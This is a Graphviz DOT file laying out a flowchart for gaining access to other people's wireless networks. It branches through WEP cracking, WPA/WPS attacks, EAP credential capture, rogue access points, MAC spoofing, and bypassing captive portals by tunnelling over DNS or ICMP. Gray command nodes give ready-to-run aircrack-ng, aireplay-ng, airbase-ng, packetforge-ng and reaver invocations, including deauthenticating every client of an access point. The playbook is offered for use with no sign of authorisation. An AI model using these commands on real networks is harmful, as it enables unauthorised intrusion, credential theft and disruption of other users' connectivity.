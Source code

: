 /*
Graphviz - DOT language writing!
$dot -Tsvg this.dot -o this.svg
*/
digraph Diagram {
    //PROFILE [label = "written by SYA-KE", shape=none];
    nodesep=0.1;
    node [fontsize=10];
    edge [fontsize=9];
    /*
    {
        node [style="invis"];
        MAIN1 -> OPN2 -> WEP3 -> WPA4 [allowhead="none",style="invis"];
    }
    */
    subgraph clusterMain {
        label = "Connecting Wireless-LAN Access Point";
        subgraph clusterFail {
            label = "";
            color = red;
            node [shape=doublecircle,color=red];
            Impossible [label="BluteForceAttack? :D"];
        }
        subgraph clusterOPN{
            label = "OPN";
            color = darkorchid;
            subgraph OPN_N_If {
                node [shape=diamond];
                NothingToDo [URL="http://compnetworking.about.com/od/wirelessfaqs/f/legal_free_wifi.htm"];
            }
            subgraph OPN_Flow {
            }
        }
        subgraph clusterWEP {
            label = "WEP";
            color = darkorchid1;
            subgraph WEP_N_Do {
                node [shape=box];
                ARPReplay [label="Perform ARP replay Attack",URL="http://www.aircrack-ng.org/doku.php?id=arp-request_reinjection"];
                CaptureSomeDataPacket [label="Capture #Data Packet",URL="http://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients"];
                ForgeARP [label="Forge ARP Packet",URL="http://www.aircrack-ng.org/doku.php?id=packetforge-ng"];
                BluteforceCRC [label="BluteForce Against a WEP Data Packet"];
                CrackCredential_WEP [label="CrackCredential"];
            }
            subgraph WEP_N_If {
                node [shape=diamond];
                HasClient_WEP [label="HasClient"];
                CouldGenerateXOR [URL="http://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients"];
            }
            subgraph WEP_Flow {
                HasClient_WEP -> ARPReplay [label="Yes."];
                HasClient_WEP -> CaptureSomeDataPacket [label="No."];
                CaptureSomeDataPacket -> CouldGenerateXOR;
                CouldGenerateXOR -> ForgeARP [label="Yes."];
                CouldGenerateXOR -> BluteforceCRC [label="No."];
                BluteforceCRC -> CrackCredential_WEP;
                ForgeARP -> ARPReplay;
                ARPReplay -> CrackCredential_WEP;
            }
        }
        subgraph clusterWPA {
            label = "WPA";
            color = darkorchid2;
            subgraph WPA_N_If {
                node [shape=diamond];
                IsTKIP;
                IsPSK;
                HasWPS_PSK [label="HasWPS",URL="http://code.google.com/p/reaver-wps/source/browse/trunk/docs/README.WASH?r=87"];
                HasClient_EAP [label="HasClient"];
                HasIEEE80211r [label="HasIEEE802.11r"];
            }
            subgraph WPA_Flow {
                IsTKIP -> HasWPS_PSK [label="Yes."];
                IsTKIP -> IsPSK [label="No."];
                //IsTKIP -> KobeCrack [label="gain xgr -> sniff and forge packets(do XOR each transaction)"];
                IsPSK -> HasWPS_PSK [label="Yes."];
                IsPSK -> HasClient_EAP [label="No."];
                HasIEEE80211r -> KRACKs [label="Yes."];
                HasIEEE80211r -> Impossible [label="No."];
            }
            subgraph WPA_N_Do {
                node [shape=box];
                KRACKs [URL="https://github.com/petermbenjamin/krackattacks-test-ap-ft#suggested-solution"];
            }
            subgraph clusterPSK {
                label = "PSK";
                subgraph PSK_N_If {
                    node [shape=diamond];
                    HasClient_PSK [label="HasClient"];
                    IsWeakWPS [URL="https://scotthelme.co.uk/wifi-insecurity-wps/"];
                }
                subgraph PSK_N_Do {
                    node [shape=box];
                    SetupRougeAccessPointOrDeauthClient [shape=record,label="SetupRougeAP|DeauthClient",URL="http://theunl33t.blogspot.jp/2011/09/no-access-point-no-problem-how-to-get.html"];
                    StealHandShake [URL="http://www.smallnetbuilder.com/wireless/wireless-howto/31914-how-to-crack-wpa-wpa2-2012"];
                    CrackCredential_PSK [label="CrackCredential"];
                    CrackWPS [URL="http://lifehacker.com/5873407/how-to-crack-a-wi-fi-networks-wpa-password-with-reaver"];
                }
                subgraph PSK_Flow {
                    HasWPS_PSK -> IsWeakWPS [label="Yes."];
                    IsWeakWPS -> CrackWPS [label="Yes."];
                    IsWeakWPS -> HasClient_PSK [label="No."];
                    HasWPS_PSK -> HasClient_PSK [label="No."];
                    HasClient_PSK -> SetupRougeAccessPointOrDeauthClient [label="Yes."];
                    HasClient_PSK -> HasIEEE80211r [label="No."];
                    SetupRougeAccessPointOrDeauthClient -> StealHandShake;
                    StealHandShake -> CrackCredential_PSK;
                    CrackWPS -> CrackCredential_PSK;
                }
            }
            subgraph clusterEAP {
                label = "EAP";
                subgraph EAP_N_If {
                    node [shape=diamond];
                }
                subgraph EAP_N_Do {
                    node [shape=box];
                    SetupRougeAP [URL="http://blog.opensecurityresearch.com/2012/04/capturing-and-cracking-peap.html"];
                    CaptureChallangeResponse [URL="http://phreaklets.blogspot.jp/2013/06/cracking-wireless-networks-protected.html"];
                    CrackCredential_EAP [label="CrackCredential"];
                }
                subgraph EAP_Flow {
                    HasClient_EAP -> SetupRougeAP [label="Yes."];
                    HasClient_EAP -> HasIEEE80211r [label="No."];
                    SetupRougeAP -> CaptureChallangeResponse;
                    CaptureChallangeResponse -> CrackCredential_EAP;
                }
            }
        }

        NothingToDo -> IsTKIP -> HasClient_WEP [style=invis];

        subgraph N_Start {
            node [shape=invtriangle,color=blue];
            Start;
        }
        subgraph N_End {
            node [shape=triangle,color=blue];
            End;
            subgraph Impossible_to_End{
                Impossible -> End;
            }
        }
        subgraph Nodes {
            subgraph N_Do {
                node [shape=box];
                ImproveYourWifiAntenna [URL="http://www.instructables.com/id/DIY-WIFI-Antenna-Reception-Booster/"];
                DeauthAllClient [URL="http://www.aircrack-ng.org/doku.php?id=deauthentication"];
                SpoofHardwareAddress [URL="http://www.securethelock.com/2013/12/03/how-to-bypass-mac-address-filtering-using-backtrackkali-linux/"];
                SpoofHardwareAddress2 [label="SpoofHardwareAddressToClient'sOne",URL="http://www.securethelock.com/2013/12/03/how-to-bypass-mac-address-filtering-using-backtrackkali-linux/"];
                SpoofProtocol [label="TCP over ICMP\nTCP over DNS\n"];
            }
            subgraph N_If {
                node [shape=diamond];
                HasAccessPointsAroundYou [URL="http://www.aircrack-ng.org/doku.php?id=airodump-ng"];
                IsStealthESSID [URL="http://securitysynapse.blogspot.jp/2014/01/wireless-pentesting-on-cheap-kali-hiddenSSID.html"];
                IsThereConnectedClient [URL="http://blackhat6969.blogspot.jp/2012/09/down-and-dirty-wifi-cracking-with.html"];
                HasHardwareAddressFiltering [URL="http://synjunkie.blogspot.jp/2007/12/bypass-hidden-ssid-mac-address-filter.html"];
                HasEncryption [URL="http://www.dummies.com/how-to/content/wireless-security-protocols-wep-wpa-and-wpa2.html"];
                IsWEP [URL="http://www.howtogeek.com/167783/htg-explains-the-difference-between-wep-wpa-and-wpa2-wireless-encryption-and-why-it-matters/"];
                HasWebAuthentication [URL="http://www.slideshare.net/support_cyberoam/hotspot-authentication"];
                HasAccount;
                HasPermitedProtocols;
                HasClient_Web [label="HasAlreadyAuthenticatedClient"];
            }
        }
        subgraph Flow {
            Start -> HasAccessPointsAroundYou;
            HasAccessPointsAroundYou -> IsStealthESSID [label="Yes"];
            HasAccessPointsAroundYou -> ImproveYourWifiAntenna [label="No."];
            ImproveYourWifiAntenna -> IsStealthESSID;
            IsStealthESSID -> IsThereConnectedClient [label="Yes."];
            IsThereConnectedClient -> DeauthAllClient [label="Yes."];
            IsThereConnectedClient -> Impossible [label="No."];
            IsStealthESSID -> HasHardwareAddressFiltering [label="No."];
            DeauthAllClient -> HasHardwareAddressFiltering;
            HasHardwareAddressFiltering -> SpoofHardwareAddress [label="Yes."];
            HasHardwareAddressFiltering -> HasEncryption [label="No."];
            SpoofHardwareAddress -> HasEncryption;
            HasEncryption -> NothingToDo [label="No."];
            //goto clusterOPN

            HasEncryption -> IsWEP [label="Yes."];
            IsWEP -> HasClient_WEP [label="Yes."];
            //goto clusterWEP

            IsWEP -> IsTKIP [label="No."];
            //goto clusterWPA

            //back from OPN
            NothingToDo -> HasWebAuthentication;
            //back from WPA
            CrackCredential_PSK -> HasWebAuthentication;
            CrackCredential_EAP -> HasWebAuthentication;
            //back from WEP
            CrackCredential_WEP -> HasWebAuthentication;

            HasWebAuthentication -> HasAccount [label="Yes."];
            HasWebAuthentication -> End [label="No."];
            HasAccount -> End [label="Yes."];
            HasAccount -> HasClient_Web [label="No."];
            HasClient_Web -> SpoofHardwareAddress2 [label="Yes."];
            HasClient_Web -> HasPermitedProtocols [label="No."];
            HasPermitedProtocols -> SpoofProtocol [label="Yes."];
            HasPermitedProtocols -> Impossible [label="No."];
            SpoofHardwareAddress2 -> End;
        }
    }
    //subgraph clusterCommands {
    subgraph Commands {
        label = "CommandsAndNotes";
        subgraph Nt_Command {
            node [shape=box,color=gray];
            HasAccessPointsAroundYouCommand [label="ifconfig wlan0 down;\niwconfig wlan0 mode mon || airmon-ng start wlan0;\nairodump-ng wlan0;\n"];
            ImproveYourWifiAntennaCommand [label="iw reg set BO;\niwconfig wlan0 tx 30;\n#Add DIY Parabora."];
            IsStealthESSIDCommand [label="airodump-ng -c [channel] --bssid [AP MAC] wlan0"];
            DeauthAllClientCommand [label="aireplay-ng -0 0 -a [AP MAC] wlan0;\naireplay-ng -0 0 -a [AP MAC] -c [STA MAC] wlan0;"];
            SpoofHardwareAddressCommand [label="ifconfig wlan0 down && ifconfig hw ether [MAC] && ifconfig wlan0 up;\nmacchanger -m [MAC] wlan0;"];
            CaptureSomeDataPacketCommand [label="airodump-ng -c [channel] --bssid [AP MAC] --output-format pcap -w captured wlan0"];
            CouldGenerateXORCommand [label="aireplay-ng -5 -b [AP MAC] wlan0\naireplay-ng -4 -b [AP MAC] wlan0"];
            ForgeARPCommand [label="packetforge-ng -0 -a [AP MAC] -h [Original client MAC of XOR] -k 255.255.255.255 -l 255.255.255.255 -y some.xor -w arp-req"];
            ARPReplayCommand [label="aireplay-ng -3 -b [AP MAC] wlan0\naireplay-ng -2 -r arp-req wlan0"];
            SetupRougeAccessPointOrDeauthClientCommand [label="airbase-ng -P -C 500 -Z 2 -c 1 -i mon0 -F handshakes.cap wlan0"];
            CrackWPSCommand [label="reaver -i wlan0 -b [AP MAC]"];
        }
        subgraph Nt_Flow {
            edge [color=gray];
            HasAccessPointsAroundYouCommand -> HasAccessPointsAroundYou;
            ImproveYourWifiAntennaCommand -> ImproveYourWifiAntenna;
            IsStealthESSIDCommand -> IsStealthESSID;
            DeauthAllClientCommand -> DeauthAllClient;
            DeauthAllClientCommand -> SetupRougeAccessPointOrDeauthClient;
            SpoofHardwareAddressCommand -> SpoofHardwareAddress;
            SpoofHardwareAddressCommand -> SpoofHardwareAddress2;
            CaptureSomeDataPacketCommand -> CaptureSomeDataPacket;
            CaptureSomeDataPacketCommand -> StealHandShake;
            CouldGenerateXORCommand -> CouldGenerateXOR;
            ForgeARPCommand -> ForgeARP;
            ARPReplayCommand -> ARPReplay;
            SetupRougeAccessPointOrDeauthClientCommand -> SetupRougeAccessPointOrDeauthClient;
            CrackWPSCommand -> CrackWPS;
        }
    }
/*
    {
        edge[style=invis];
        {End} -> {Impossible};
    }
*/
    /*
    {rank=same; MAIN1; Start ;};
    {rank=same; OPN2; NothingToDo ;};
    {rank=same; WEP3; HasClient_WEP ;};
    {rank=same; WPA4; IsPSK ;};
    */
}

